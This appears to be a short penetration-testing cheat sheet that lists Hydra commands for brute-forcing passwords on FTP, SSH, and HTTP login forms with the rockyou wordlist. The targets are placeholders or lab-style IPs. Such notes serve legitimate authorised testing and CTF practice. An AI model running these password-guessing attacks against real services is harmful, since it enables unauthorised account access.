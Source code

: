 -  Hydra by ftp

````shell
hydra -l user -P passwords.txt ftp://<target-ip>
````

- Hydra for http form:

```shell
hydra -l fox -P /usr/share/wordlists/rockyou.txt -u -s 80 IP_HOST http-head

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
```

- Brute force ssh:
	- Use it when you can perform a redirection of the traffic to the ssh port but you have modified the configuration from the inside with socat

```shell
hydra -l USER -P /usr/share/wordlists/rockyou.txt ssh://IP_VICTIM:PORT
```

- Brute force login form:

```shell
hydra -L USERFILE -P PASSWORDFILE DOMAIN/IP METHOD "REDIRECTIONURL:PARAMETERS:FAILMESSAGE:H=COOKIES"
```

